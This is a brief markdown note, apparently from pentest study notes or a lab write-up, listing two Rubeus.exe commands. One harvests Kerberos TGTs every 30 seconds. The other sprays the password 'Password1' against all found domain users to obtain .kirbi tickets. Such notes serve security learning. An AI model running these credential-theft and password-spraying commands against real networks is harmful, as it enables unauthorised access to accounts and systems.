 ## Rubeus.exe

`Rubeus.exe harvest /interval:30` - This command tells Rubeus to harvest for TGTs every 30 seconds

`Rubeus.exe brute /password:Password1 /noticket` - This will take a given password and "spray" it against all found users then give the .kirbi TGT for that user


